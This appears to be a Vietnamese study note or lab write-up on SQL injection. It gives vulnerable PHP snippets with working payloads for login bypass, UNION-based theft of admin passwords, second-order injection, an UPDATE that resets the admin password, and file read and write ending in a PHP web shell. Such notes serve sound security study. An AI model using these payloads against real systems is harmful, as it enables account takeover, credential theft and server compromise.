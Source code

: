 ## Example

### Example 1

```
$sql = "SELECT username FROM users WHERE username='$username' AND password='$password'";
$query = $database->query($sql);
```

C1: Truyền dữ liệu `admin' -- ` vào biến username.

C2: Truyền dữ liệu `admin' or 1 = '2`.

Giải thích: toán tử AND sẽ được ưu tiên thực hiện trước toán tử OR. Nên ta có logic của câu truy vấn như sau: TRUE OR (FALSE AND FALSE) --> TRUE OR FALSE = TRUE --> login thành công.

 ### Example 2

 ```
$sql = "SELECT username FROM users WHERE username=\"$username\" AND password=\"$password\"";
$query = $database->query($sql);
```

Tương tự ex 1 nhưng lần này biến $username và $password được bọc trong dấu nháy kép. 

C1: Truyền dữ liệu `admin" -- ` vào biến username.

C2: Truyền dữ liệu `admin" or 1 = "2`.

### Example 3

```
$sql = "SELECT username FROM users WHERE username=LOWER(\"$username\") AND password=MD5(\"$password\")";
$query = $database->query($sql);
```

Có sự xuất hiện của hàm LOWER(). Cách khai thác:

Cách khai thác: `admin" ) -- `.

### Example 4

```
function checkValid($data)
{
    if (strpos($data, '"') !== false)
        return false;
    return true;
}

function loginHandler($username, $password)
{
    if (!checkValid($username) || !checkValid($password))
        return "detected";
....

    $sql = "SELECT username FROM users WHERE username=LOWER(\"$username\") AND password=MD5(\"$password\")";
    $query = $database->query($sql);
```

Ở ví dụ này chương trình đưa dấu nháy kép " vào blacklist. Vì vậy hãy sử dụng dấu backslash `\` để loại bỏ dấu " trong câu truy vấn. Cách khai thác:

Ở trường username nhập: `\`. Như vậy username sẽ nhận giá trị `) AND password=MD5(`.

Ở trường password thực hiện nối dài câu truy vấn để khai thác sqli: `) union select 'admin' -- `.

Lúc này câu truy vấn sẽ trở thành: `SELECT username FROM users WHERE username=LOWER() AND password=MD5() UNION SELECT 'admin' -- `

### Example 5

```
$sql = "SELECT username, password FROM users WHERE username='$username'";
```

Truy vấn giá trị username và password từ database nơi mà usernmae bằng giá trị biến $username nhập vào. password nhập vào sẽ được hash md5 trước khi so sánh với password truy vấn trước đó.

Cách khai thác: nối dài câu truy vấn với `union`.

C1: Truyền dữ liệu vào biến username: `' UNION SELECT password, md5('1') from users where username = 'admin' -- `. Password: `1`. Bằng cách này sẽ lấy được được password của admin từ database.

C2: Cách này sẽ thao túng luôn password và đăng nhập với tư cách admin với bất kì password nào. `' UNION SELECT 'admin', md5('1') -- `.

### Example 6

```
$sql = "SELECT content FROM posts WHERE id=$id";
```

Khai thác truy vấn database version: `0 UNION SELECT @@version –- `.

### Example 7

```
$sql = "SELECT username FROM users WHERE username=? and password=?";
$statement = $database->prepare($sql);
$statement->bind_param('ss', $_POST['username'], md5($_POST['password']));
$statement->execute();
$statement->store_result();
$statement->bind_result($result);

if ($statement->num_rows > 0) {
    $statement->fetch();
    $_SESSION["username"] = $result;
    die(header("Location: profile.php"));

...
```
Ở ex này câu truy vấn sử dụng "prepared statements" giúp chống lại các cuộc tấn công SQL injection. Nhưng tại file profile.php lại sử dụng câu truy vấn nối chuỗi `$sql = "SELECT email FROM users WHERE username='$username'";` dẫn đến bị khai thác:

Tạo tài khoản với username: `' UNION SELECT GROUP_CONCAT(username, password) FROM users -- `.

### Level 8
```
$sql = "UPDATE users SET email='$email' WHERE username='$username'";
```
Cách khai thác: lợi dụng câu truy vấn UPDATE thay đổi password của `admin` theo ý muốn `', password = md5('1') where username='admin' --  `.




`$sql = "SELECT * FROM posts WHERE id=" . $_GET['id'];`

- xac dinh so cot
  
`select from posts where id=1+union+select+1,2,3,4+--+-`

- mysql cho phep doc, ghi file --> database user duoc quyen doc ghi file 

`LOAD_FILE('file_name')  -- read`

`INTO OUTFILE  -- write`

`1+union+select+1,2,3,LOAD_FILE('/flag_a7bd2')+--+-`

`1+union+select+1,2,3,'<?php phpinfo() ?>' INTO OUTFILE '/var/www/html/test.php'+--+- `   (ghi file tai document root --> rce)




 

